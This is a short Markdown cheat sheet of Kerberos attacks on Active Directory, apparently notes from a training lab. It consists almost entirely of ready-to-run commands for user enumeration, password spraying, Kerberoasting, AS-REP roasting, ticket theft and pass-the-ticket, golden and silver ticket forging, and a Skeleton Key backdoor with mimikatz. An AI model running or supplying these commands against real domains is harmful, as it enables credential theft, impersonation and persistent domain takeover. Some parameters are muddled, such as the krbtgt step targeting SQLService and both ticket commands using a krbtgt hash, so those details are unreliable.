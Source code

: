 # Attacking Kerberos 

## Enumeration w/ Kerbrute
```shell
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Harvesting Tickets w/ Rubeus
This command tells Rubeus to harvest for TGTs every 30 seconds
```shell
Rubeus.exe harvest /interval:30
```
## Password-Spraying w/ Rubeus
```shell
Rubeus.exe brute /password:Password1 /noticket
```
## Kerberoasting w/ Rubeus & Impacket
```shell
Rubeus.exe kerberoast
```
```shell
cd /usr/share/doc/python3-impacket/examples/
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request
```
## AS-REP Roasting w/ Rubeus & Impacket
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>```
```
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
## Pass the Ticket w/ mimikatz
```shell
mimikatz.exe
privilege::debug           #Ensure this outputs [output '20' OK] (You need admin privileges)
sekurlsa::tickets /export  #This will export all of the .kirbi tickets into the directory that you are currently in.
kerberos::ptt <ticket>     #This will cache and impersonate the given ticket.
klist                      #Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
```
## Golden/Silver Ticket Attacks w/ mimikatz
Dump the krbtgt hash
```shell
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:SQLService
```
You need to change `/name:` value to the domain account/service you want.

### Create a Silver Ticket
```shell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:1103
```
### Create a Golden Ticket
```shell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:500
```
`misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.

`sid:` -> The sid of the service account.

`krbtgt` -> Put a service NTLM hash here.

`id` -> Put 500 to create golden tickets, change it to 1103 for silver tickets.

## Kerberos Backdoors w/ mimikatz (Skeleton Key)
```shell
mimikatz.exe
privilege::debug
misc::skeleton
```
